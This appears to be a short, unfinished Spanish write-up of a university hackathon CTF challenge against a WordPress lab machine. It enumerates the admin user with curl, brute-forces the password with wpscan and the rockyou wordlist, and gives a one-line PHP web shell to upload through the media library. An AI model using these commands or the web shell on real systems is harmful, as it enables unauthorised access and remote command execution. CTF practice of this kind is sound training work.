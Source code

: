 # Hackaton UdG - Reto 2

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)


### Flag 1 

Lo primero que encontramos es en la ruta `htpp://<IP>/wp1/` así que nos encontramos ante una máquina con WordPress.

Encontramos el usuario `admin` con la comanda `curl -s -L http://<IP>/wp1/?author=1` y con esta información y mediante fuerza bruta con la herramienta `wpscan` y ejecutando el siguiente comando 

```shell
wpscan --url http://10.0.2.12/wp1/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --enumerate u --disable-tls-checks > wpscan-pass.txt
``` 
sacamos las credenciales: `admin:spongebob`

> [!NOTE]
> Problema de resolución de DNS, se tuvo que añadir una línea `echo "10.0.2.12 reto02.hackaton" | sudo tee -a /etc/hosts
`

### Flag 2 

Una vez dentro del WordPress como admin y haciendo uso de la sección de Medios podemos subir una `reverse shell`

```shell
echo "<?php system(\$_GET['cmd']); ?>" > shell.php

```

### Flag 3


